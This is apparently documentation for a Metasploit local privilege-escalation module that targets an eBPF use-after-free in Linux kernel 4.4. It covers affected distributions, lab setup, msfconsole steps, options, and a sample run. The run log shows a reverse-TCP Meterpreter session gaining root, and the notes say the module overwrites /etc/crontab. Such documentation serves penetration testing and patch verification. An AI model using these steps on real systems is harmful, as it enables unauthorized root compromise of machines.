 ## Notes

  Linux kernel 4.4 < 4.5.5 extended Berkeley Packet Filter (eBPF)
  does not properly reference count file descriptors, resulting
  in a use-after-free, which can be abused to escalate privileges.

  The target system must be compiled with `CONFIG_BPF_SYSCALL`
  and must not have `kernel.unprivileged_bpf_disabled` set to 1.

  Note, this module will overwrite the first few lines
  of `/etc/crontab` with a new cron job. The job will
  need to be manually removed.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 16.04 (x64) kernel 4.4.0-21-generic (default kernel)

  This module was not tested against, but may work against:

  * Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=82
  * Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)


## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04)
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04)
  3. fuse needs to be installed (non-default on Ubuntu 16.04)
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

  The `libfuse-dev` package must be installed to test live-compiling on the target:

  `apt-get install libfuse-dev=2.9.4-1ubuntu3.1`


## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_priv_esc
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35 seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to `120` (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`


## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

  ```
  msf > use exploit/linux/local/bpf_priv_esc 
  msf exploit(linux/local/bpf_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/bpf_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/bpf_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/bpf_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 4.4.0-21-generic appears to be vulnerable
  [+] fuse package is installed
  [+] /tmp/fuse_mount doesn't exist
  [+] Kernel config has CONFIG_BPF_SYSCALL enabled
  [+] Unprivileged BPF loading is permitted
  [+] libfuse-dev is installed
  [+] gcc is installed
  [+] pkg-config is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/hello.c' (2682 bytes) ...
  [*] Writing '/tmp/doubleput.c' (5168 bytes) ...
  [*] Writing '/tmp/suidhelper.c' (333 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.FVfiRBKRDX7r' (285 bytes) ...
  [*] Launching exploit. This may take up to 120 seconds.
  [+] Success! set-uid root /tmp/suidhelper
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (861348 bytes) to 172.16.191.141
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.141:34804) at 2018-12-15 00:20:04 -0500
  [+] Deleted /tmp/hello.c
  [+] Deleted /tmp/hello
  [+] Deleted /tmp/doubleput.c
  [+] Deleted /tmp/doubleput
  [+] Deleted /tmp/suidhelper.c
  [+] Deleted /tmp/.FVfiRBKRDX7r
  [+] Deleted /tmp/fuse_mount
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.141
  OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

